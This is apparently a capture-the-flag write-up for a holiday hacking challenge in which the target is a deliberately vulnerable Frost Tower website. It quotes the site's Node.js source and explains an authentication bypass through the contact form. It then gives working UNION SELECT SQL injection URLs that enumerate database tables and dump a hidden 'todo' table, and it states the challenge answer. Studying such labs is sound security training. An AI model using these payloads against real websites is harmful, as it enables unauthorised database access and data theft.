



# Objective 12) Frost Tower Website Checkup

!!! summary "*Difficulty*: :fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}"
    Investigate <a href="https://staging.jackfrosttower.com/">Frost Tower's website for security issues</a>. <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">This source code will be useful in your analysis</a>. In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.
 

## Hints and Resources

??? hint "Hints provided after helping Rib Bonbowford and completing the <a href="../../challenges/T12_Elf_Code_Python">Elf Code Python</a> Terminal Challenge"
    **SQL Injection with Source**<br>
    When you have the source code, API documentation becomes <a href="https://www.npmjs.com/package/express-session">tremendously</a> <a href="https://github.com/mysqljs/mysql">valuable</a>.<br>

    
## Troll Introduction

??? quote "Talk to Ingreta Tude in Jack's Studio"
    Hey there! I’m Ingreta Tude. I really don’t like the direction Jack Frost is leading us.
    He seems obsessed with beating Santa and taking over the holiday season. It just doesn’t seem right.
    Why can’t we work together with Santa and the elves instead of trying to beat them?
    But, I do have an Objective for you. We’re getting ready to launch a new website for Frost Tower, and the big guy has charged me with making sure it’s secure.
    My sister, Ruby Cyster, created this site, and I don’t trust the results.
    Can you please take a look at it to find flaws?
    Here is the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> if you need it.

## Solution


### Step 1: Finding the SQL Injection Point

Opening the web site we see only a home page with a place to enter an email contact addres.  However, looking through the main file of the source code, server.js, we see that there are a number of additional endpoints available.

Inspecting the code we find that the /detail endpoint provides us with an opportunitty to inject SQL

``` js title="server.js" linenums="195"
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";

    if (session.uniqueID){

        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){

```

This endpoint allows the user to specify one or more contact IDs to view by supplying them as the last element of the URL, such as<br>
`https://staging.jackfrosttower.com/detail/1234`

If a single ID is requested then the code at line 212 constructs the query as<br>
`SELECT * FROM uniquecontact WHERE id=?`<br>
and the '?' placeholder is substituted with the ID when the query is executed on line 219.  MySQLjs automatically escapes any values passed this way, so injecting SQL using this method will not work.

However, if more than one ID is requested by separating them with commas, then the code on lines 204-210 build the query with whatever was used for the IDs built in. For example, the URL<br>
`https://staging.jackfrosttower.com/detail/1,2`<br>
will result in the following query being built<br>
`SELECT # FROM uniquecontact WHERE id=1 or ID=2 OR id=?`

This gives us an opportunity to inject code, but first we have to bypass the authentication.


### Step 2: Authentication Bypass

In order to use the /detail endpoint we need to pass the authentication check on line 200.  On a sucessful login the session.uniqueID value is defined to be our username, but if we haven't logged in it will be undefined.

But further inspection of the code reveals a flaw in the /postcontact endpoint.  This endpoint is called after pressing 'Save' on the 'Contact Us' page, and includes the following bit of code.

``` js title="server.js" linenums="141"
tempCont.query("SELECT * from uniquecontact where email="+tempCont.escape(email), function(error, rows, fields){

    if (error) {
        console.log(error);
        return res.sendStatus(500);
    }

    var rowlength = rows.length;
    if (rowlength >= "1"){
        session = req.session;
        session.uniqueID = email;
        req.flash('info', 'Email Already Exists');
        res.redirect("/contact");
        
    } else {

        tempCont.query("INSERT INTO uniquecontact (full_name, email, phone, country, date_created) VALUE (?, ?, ?, ?, ?)", [fullname, email, phone, country, date_created], function(error, rows, fields) {
```

Here we see that if the email address entered into the 'Contact Us' page doesn't exist (line 149 evaluates as False), then line 157 adds a new record to the uniquecontact table.

If however the email address already exists in the table, then line 151 will set session.uniqueID to that value.  Since the check in the /detail endpoint is just looking to see if session.uniqueID is set to something, this means if we submit a 'Contact Us' form twice using the same email then we will pass the authentication check.


### Step 3: SQL Injection Constraints

Now that we are 'authenticated' to the system we can try to inject code using the /details endpoint.

One of the more common SQL Injection techniques involves the use of a UNION SELECT statement.  This statement will execute a second SELECT and combines its results with the first.  One of the requiements however when using a UNION SELECT is that the second SELECT statement must return the same number of columns as the first.

For example, the URL<br>
`https://staging.jackfrosttower.com/detail/1 UNION SELECT name FROM users;--,2`<br>
will be expanded by the code into the full query<br>
`SELECT * FROM uniquecontact WHERE id=1 UNION SELECT name FROM users;-- OR ID=2 OR ID=?`<br>
*Note that I'm adding the comment characters `;--` at the end of my injection so everything after that will be ignored*.

This query will result in an error because the first select, `SELECT * FROM uniquecontact WHERE id=1`, returns 7 columns and `SELECT name FROM users` only returns 1 column.

Additionally, after the /detail endpoint retreives values from the database it passes them to the detail.ejs file for rendering (see line 236 in server.js).  The detail.ejs file requires that the values passed to it 'fit' into the structure of the uniquecontact table, shown below from the script used to initialize the database.

``` js title="encontact_db.sql" linenums="8"
CREATE TABLE `uniquecontact` (
  `id` int(50) NOT NULL AUTO_INCREMENT,
  `full_name` varchar(255) DEFAULT NULL,
  `email` varchar(255) DEFAULT NULL,
  `phone` varchar(50) DEFAULT NULL,
  `country` varchar(255) DEFAULT NULL,
  `date_created` datetime DEFAULT NULL,
  `date_update` datetime DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=33 DEFAULT CHARSET=latin1;
```

So when we inject code into the /detail endpoint we need to make sure not only that we return 7 colunmns, but that the types of those values match as well.  Fortunately NULL values match anything (see below).


### Step 4: Finding Jack's TODO List

From what we see in the source there does not appear to be any table or field in the encontact database that might contain Jack's TODO list.  However, there could be another table that we are not aware of.

The MySQL query that would show use all the tables in the encontact database is<br>
`SELECT table_name FROM information_schema.tables WHERE table_schema='encontact'`.  

But as mentioned above, our injection needs to return 7 values and this query only returns one.  To get around this we can use the `JOIN` statement to combine multiple `SELECT` statements into one result. 

`SELECT * FROM (select NULL)c1 join (SELECT table_name FROM information_schema.tables WHERE table_schema='encontact')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7`

This query would return 7 columns, the 2nd of which will be the names of the tables in the encontact database and the others all NULL.  This query can be executed through SQL injection with the following URL
```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (SELECT table_name FROM information_schema.tables WHERE table_schema='encontact')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,2
```
??? info "Screenshot"
    


Executing this injection tells us that there is another table named "todo" in the database.  The MySQL query that would show all the column names for this table is<br>
`SELECT column_name FROM information_schema.columns WHERE table_name='todo'`<br>
which we can inject into the web site as well.

```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (SELECT column_name FROM information_schema.columns WHERE table_name='todo')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,1
```
??? info "Screenshot"
    

Now we know there are three columns in the todo table, 'id', 'note', and 'completed', so we can compose our final query to retrieve all the rows of this table.  Note that in this query we are using fewer join statements since the select from the todo table will return three columns.
```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (select * from todo)c2 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,1
```
??? info "Screenshot"
    


## Completion

!!! success "Answer"
    clerk

??? quote "Ingreta Tude"
    Oh wow - I thought we left SQL injection in the last decade.<br>
    Thanks for your help finding this!


## Extras

For Jack's complete TODO list, see <a href="../../extras/O12_Frost_Tower_Website_Checkup">this table</a> in the Extras section.
